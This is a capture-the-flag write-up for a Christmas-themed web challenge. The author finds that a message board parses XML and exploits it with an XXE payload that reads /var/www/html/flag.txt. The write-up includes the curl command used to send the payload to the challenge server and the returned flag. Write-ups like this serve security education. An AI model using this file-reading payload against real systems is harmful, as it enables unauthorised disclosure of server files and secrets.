




# Our Christmas wishlist (Web)

Hi CTF player. If you have any questions about the writeup or challenge. Submit a issue and I will try to help you understand.

Also I might be wrong on some things. Enjoy :)

(P.S Check out my [CTF cheat sheet](https://github.com/flawwan/CTF-Candy))



This is a simple message board where you can submit your requests for christmas to the santa.



Looking at the source code of the page we find a interesting function "lol".



Right here I saw they were using XML which means we can probably do a XXE attack.

OWASP has a great guide on XXE:



Final exploit looks like this:
```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ENTITY xxe SYSTEM "file:///var/www/html/flag.txt" >]>
   <message>&xxe;</message>
```
And send the requests to the server with:
```bash
curl -X POST -H "Content-Type: application/xml" -d @payload.xml http://95.179.163.167:12001/
```

And we get the flag
```
Your wish: X-MAS{_The_Ex73rnal_Ent1t13$_W4n7_To__Jo1n_7he_p4r7y__700______}
```
